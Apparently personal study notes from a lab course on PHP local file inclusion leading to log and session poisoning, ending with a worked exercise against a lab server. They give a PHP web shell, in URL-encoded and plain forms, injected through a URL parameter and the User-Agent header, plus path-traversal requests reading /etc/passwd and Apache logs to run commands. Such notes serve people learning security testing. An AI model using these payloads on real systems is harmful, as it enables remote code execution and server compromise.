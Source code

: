# log poisoning 
>Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.
![[Pasted image 20230305193153.png]]

---
## PHP Session Poisoning
>Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows. 

The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a `PHPSESSID` cookie set to our session:

![[Pasted image 20230305193338.png]]
As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`

We can see that the session file contains two values: `page`, which shows the selected language page, and `preference`, which shows the selected language. The `preference` value is not under our control, as we did not specify it anywhere and must be automatically specified. However, the `page` value is under our control, as we can control it through the `?language=` parameter.

Let's try setting the value of `page` a custom value (e.g. `language parameter`) and see if it changes in the session file. We can do so by simply visiting the page with `?language=session_poisoning` specified, as follows:

Code:
```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
![[Pasted image 20230305201345.png]]


Now, let's include the session file once again to look at the contents:

This time, the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file. Our next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:
````url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
````
![[Pasted image 20230305201504.png]]
>**Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten**


---
## Server Log Poisoning
>Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs
in old apache servers and nginx servers logs are readable by low priv users such as www 

default apache log file path `/var/log/apache2/access.log` and in `C:\xampp\apache\logs\` on Windows while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.
However, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations, as will be discussed in the next section.

![[Pasted image 20230305220603.png]]
As we can see, we can read the log. The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header. As mentioned earlier, the `User-Agent` header is controlled by us through the HTTP request headers, so we should be able to poison this value.
![[Pasted image 20230305223403.png]]
As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution. We can specify a command to be executed with (`?cmd=id`):

![[Pasted image 20230305223435.png]]

**Tip:** 
```
The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.
```

-   `/var/log/sshd.log`
-   `/var/log/mail`
-   `/var/log/vsftpd.log`

We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the `ssh` or `ftp` services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the `mail` services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute. We can generalize this technique to any logs that log a parameter we control and that we can read through the LFI vulnerability.

---
## Exercise

1. **Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd**
2. **Try to use a different technique to gain RCE and read the flag at /**

### 1.

First we test for LFI `/index.php?language=../../../etc/passwd`
![[Pasted image 20230305224218.png]]
now we look for the log files 

we have access to apache log files `../../../var/log/apache2/access.log`
![[Pasted image 20230305224433.png]]
now we poison the logs by changing our User-Agent Header to php code
![[Pasted image 20230305224604.png]]

we have successfully poisoned the logs
`<?php system($_GET['cmd']); ?>`
`../../../var/log/apache2/access.log&cmd=id`
![[Pasted image 20230305224703.png]]
`view-source:http://188.166.150.33:30780/index.php?language=./../../../var/log/apache2/access.log&cmd=ls%20-la%20/`
![[Pasted image 20230305225224.png]]

### 2.
![[Pasted image 20230305225259.png]]
